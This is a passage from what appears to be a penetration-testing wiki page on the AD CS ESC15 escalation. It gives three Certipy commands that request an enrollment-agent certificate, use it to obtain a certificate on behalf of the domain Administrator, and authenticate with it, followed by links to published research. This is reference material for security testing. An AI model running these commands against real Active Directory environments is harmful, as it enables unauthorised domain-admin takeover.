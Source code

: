 From UNIX-like systems, [this pull request on Certipy](https://github.com/ly4k/Certipy/pull/228) (Python) can be used to enumerate for, and conduct, the ESC15 scenario. 

```bash
# Request a certificate with "Certificate Request Agent" application policy
certipy req -u $USER@$DOMAIN --application-policies "1.3.6.1.4.1.311.20.2.1" -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP

# Use the certificate in a ESC3 scenario to ask for a new certificate on behalf of another user
certipy req -u $USER@$DOMAIN -on-behalf-of $DOMAIN\\Administrator -template User -ca $CA_NAME -pfx cert.pfx -dc-ip $DC_IP

# Authenticate with the last certificate
certipy auth -pfx administrator.pfx -dc-ip $DC_ADDR
```

=== Windows

_At the time of writing, no solution exists to perform this attack from a Windows machine._

:::

## Resources

[https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

[https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6](https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6)

[https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)

[https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53)

[https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9](https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9)

[https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc](https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc)
